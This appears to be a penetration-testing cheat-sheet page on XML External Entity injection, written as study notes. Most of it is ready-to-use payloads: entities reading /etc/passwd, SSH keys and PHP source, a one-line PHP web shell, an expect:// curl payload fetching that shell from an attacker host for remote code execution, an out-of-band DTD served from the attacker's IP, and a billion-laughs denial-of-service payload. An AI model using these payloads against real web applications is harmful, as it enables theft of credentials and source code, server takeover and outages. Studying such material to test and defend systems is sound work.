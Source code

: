 ```yaml
---
layout: default
title: XXE
permalink: /Web/xxe/
---
```


# XML External Entity (XXE) Injection
XXE Injection vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions.

## Local File Disclosure
When a web application trusts unfiltered XML data from user input, we may be able to reference an external XML DTD document and define new custom XML entities. Suppose we can define new entities and have them displayed on the web page. In that case, we should also be able to define external entities and make them reference a local file, which, when displayed, should show us the content of that file on the back-end server.

### Identifying
If we intercept an HTTP request and our data is send in an XML format to the web server, then it is a potential target. If the web application uses outdated XML libraries, and it does not apply any filters or sanitization on our XML input. In that case, we may be able to exploit this XML form to read local files. <br>
If we send a request and one element is displayed back to us, we can try to inject into that element. We can add e.g. the following lines after the first line the int XML input (the first line should look something like this: `<?xml version="1.0" encoding="UTF-8"?>`):
```
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```
*Note: In this example, the XML input in the HTTP request had no DTD being declared within the XML data itself, or being referenced externally, so we added a new DTD before defining our entity. If the DOCTYPE was already declared in the XML request, we would just add the ENTITY element to it.*

Now, we should have a new XML entity called 'company', which we can reference with `&company;`. So, instead of using e.g. our email in the email element, we can try using `&company;`, and see whether it will be replaced with the value we defined ('Inlane Freight'):

*Note: Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the Content-Type header to application/xml, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm). If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.*

### Reading Files
To see if we can define external XML entities, we can add the SYSTEM keyword and define the external reference path after it:
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```
This enables us to read the content of sensitive files, like configuration files that may contain passwords or other sensitive files like an id_rsa SSH key of a specific user, which may grant us access to the back-end server.

*Note: In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.*

### Reading Source Code
This would allow us to perform a Whitebox Penetration Test to unveil more vulnerabilities in the web application, or reveal secret configurations like database passwords or API keys. <br>
If the file we are referencing is not in a proper XML format, it fails to be referenced as an external XML entity, so this one probably fails:
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file://index.php">
]>
```
If a file contains some of XML's special characters (e.g. </>/&), it would break the external entity reference and not be used for the reference. Furthermore, we cannot read any binary data, as it would also not conform to the XML format. <br>
However, PHP provides wrapper filters that allow us to base64 encode certain resources 'including files', in which case the final base64 output should not break the XML format. To do so, instead of using file:// as our reference, we will use PHP's php://filter/ wrapper. With this filter, we can specify the convert.base64-encode encoder as our filter, and then add an input resource (e.g. resource=index.php), as follows:
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```
*Note: This trick only works with PHP web applications.*

### Remote Code Execution with XXE
The easiest method would be to look for ssh keys, or attempt to utilize a hash stealing trick in Windows-based web applications, by making a call to our server. If these do not work, we may still be able to execute commands on PHP-based web applications through the PHP://expect filter, though this requires the PHP expect module to be installed and enabled. <br>
The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:
```
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
```
```
sudo python3 -m http.server 80
```
Now, we can use the following XML code to execute a curl command that downloads our web shell into the remote server:
```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
*Note: The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.*

### Other XXE Attacks
- SSRF exploitation via XXE to enumerate locally open ports and access their pages, among other restricted web pages.
- Denial of Service (DOS) to the hosting web server, with the use the following payload:
  ```
  <?xml version="1.0"?>
  <!DOCTYPE email [
    <!ENTITY a0 "DOS" >
    <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
    <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
    <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
    <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
    <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
    <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
    <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
    <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
    <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
    <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
  ]>
  <root>
  <name></name>
  <tel></tel>
  <email>&a10;</email>
  <message></message>
  </root>
  ```
  This payload defines the a0 entity as DOS, references it in a1 multiple times, references a1 in a2, and so on until the back-end server's memory runs out due to the self-reference loops. However, this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference.

 ## File Disclosure

 ### CDATA
 To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.
 We can define a begin internal entity with `<![CDATA[`, an end internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element, as follows:
 ```
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
After that, if we could reference the `&joined;` entity, but this probably won't work, since XML prevents joining internal and external entities.
To bypass this limitation, we can utilize XML Parameter Entities, a special type of entity that starts with a % character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined.
Host this file in a DTD (e.g. xxe.dtd):
```
<!ENTITY joined "%begin;%file;%end;">
```
We can use `python3 -m http.server 8000` as usual.
Then reference it as an external entitiy on the target web applicaiton:
```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
### Error Based XXE
The web application might not write any output. However, if the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit.


